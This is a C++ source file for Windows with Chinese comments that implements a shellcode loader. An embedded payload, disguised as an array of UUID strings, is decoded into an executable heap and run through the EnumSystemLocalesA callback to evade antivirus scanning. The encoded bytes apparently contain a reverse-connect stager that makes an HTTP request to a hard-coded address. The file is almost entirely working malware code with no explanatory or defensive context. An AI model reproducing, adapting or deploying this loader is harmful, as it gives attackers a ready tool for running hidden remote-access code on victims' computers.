 ```
#include<Windows.h>
#include<Rpc.h>
#include<iostream>
#pragma comment(lib,"Rpcrt4.lib")
using namespace std;
const char* uuids[] = { "0089e8fc-0000-8960-e531-d2648b52308b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c7e2f05257","8b10528b-3c42-d001-8b40-7885c0744a01","488b50d0-8b18-2058-01d3-e33c498b348b","ff31d601-c031-c1ac-cf0d-01c738e075f4","3bf87d03-247d-e275-588b-582401d3668b","588b4b0c-011c-8bd3-048b-01d089442424","59615b5b-515a-e0ff-585f-5a8b12eb865d","74656e68-6800-6977-6e69-54684c772607","ff31d5ff-5757-5757-5768-3a5679a7ffd5","000084e9-5b00-c931-5151-6a0351516850","53000000-6850-8957-9fc6-ffd5eb705b31","006852d2-4002-5284-5252-53525068eb55","d5ff3b2e-c689-c383-5031-ff57576aff53","062d6856-7b18-d5ff-85c0-0f84c3010000","f685ff31-0474-f989-eb09-68aac5e25dff","68c189d5-2145-315e-ffd5-31ff576a0751","b7685056-e057-ff0b-d5bf-002f000039c7","ff31b774-91e9-0001-00e9-c9010000e88b","2fffffff-6b31-566a-00fe-dc7a2d31c9e7","42b51e28-625f-f5a3-6442-792da2d8f774","c764c1ca-fec2-b232-360a-a0904efad447","d98ba404-65e6-8fa1-bee4-b69563f0b446","60f88520-b15e-a0f8-59ef-9eb2c6e6f95d","5500078e-6573-2d72-4167-656e743a204d","6c697a6f-616c-352f-2e30-2028636f6d70","62697461-656c-203b-4d53-49452031302e","57203b30-6e69-6f64-7773-204e5420362e","57203b32-574f-3436-3b20-54726964656e","2e362f74-3b30-5420-6f75-63683b204d41","534a5053-0d29-000a-91a8-10b7da807fab","2f1623c7-614b-ebbd-a514-6f904bdf5a58","1f5557e0-6adb-7456-c2a1-9c9f32da910d","952d1001-8eef-7249-3a2b-9e598e85a6ad","98c69cb6-7d10-1f09-60a3-4aeabe4af549","d618c78a-2260-1751-b8d6-61d38a81373e","3d1c3d6a-f3c5-57a0-0204-4457c1142371","6c8708c2-6b94-c189-d92b-cc6b62253fbb","f102569f-4d54-914d-4e89-5bda5ff092a5","cfafb2ac-e2bb-b0af-ca5b-08834c927ab5","07d2b997-8fc9-80b7-fc26-3da3d19e2942","780bcd05-11c2-4f86-6657-dae24b98cc46","febde54d-2cc7-d3c4-e5c0-f943cad41d5a","6800da73-b5f0-56a2-ffd5-6a4068001000","00006800-0040-6857-58a4-53e5ffd593b9","00000000-d901-5351-89e7-576800200000","12685653-8996-ffe2-d585-c074c68b0701","75c085c3-58e5-e8c3-a9fd-ffff31302e31","32342e39-312e-3434-0012-345678000000" }; 
int main()
{
  HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);//获得可执行的句柄
  void* ha = HeapAlloc(hc, 0, 0x100000);//申请堆空间
  if (ha == NULL)
  {
    cout << "内存申请失败！" << endl;
    return 0;
  }
  DWORD_PTR hptr = (DWORD_PTR)ha;
  int elems = sizeof(uuids) / sizeof(uuids[0]);//获得需要写入uuids数组元素个数
  for (int i = 0; i < elems; i++)
  {
    //cout << (RPC_CSTR)uuids[i] << endl;
    //cout << (UUID*)hptr << endl;
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)hptr);//写入shellcode
      if (status != RPC_S_OK)//判断是否写入正常
      {
        cout << "UuidFromeStringA()!=S_OK" << endl;
        CloseHandle(ha);
          return -1;
      }
    hptr += 16;
  }
  //((void(*)())ha)();
  EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);//回调函数,运行shellcode
  CloseHandle(ha);
  return 0;
}
```
